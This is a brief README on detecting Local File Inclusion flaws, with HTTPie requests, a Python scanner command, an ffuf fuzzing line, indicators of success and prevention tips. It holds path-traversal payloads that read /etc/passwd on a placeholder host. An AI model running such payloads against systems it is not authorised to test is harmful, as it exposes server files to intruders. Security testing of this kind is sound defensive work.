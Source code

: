 # LFI (Local File Inclusion) Testing with HTTPie, Python, and ffuf

## Objective
Detect Local File Inclusion vulnerabilities using manual and automated tools.

## Tools Used
- **HTTPie**: Manual parameter testing
- **Python (requests)**: Automation of common LFI payloads
- **ffuf**: Fuzzing parameters with extensive payloads

## HTTPie Manual Test
```bash
http http://target.com/view?file=../../../../etc/passwd
http http://target.com/view?file=..%2f..%2fetc%2fpasswd
```

## Python Automation
```bash
python3 lfi_scanner.py http://target.com/view
```

## ffuf Fuzzing
```bash
ffuf -u http://target.com/view?file=FUZZ -w lfi_payloads.txt -mc all
```

## Indicators of LFI
- Response includes `root:x:` (Unix), `[extensions]` (Windows), or PHP script output
- HTTP 200 with unexpected file content

## Prevention
- Whitelist file access
- Validate and sanitize all parameters
- Disable dynamic file includes
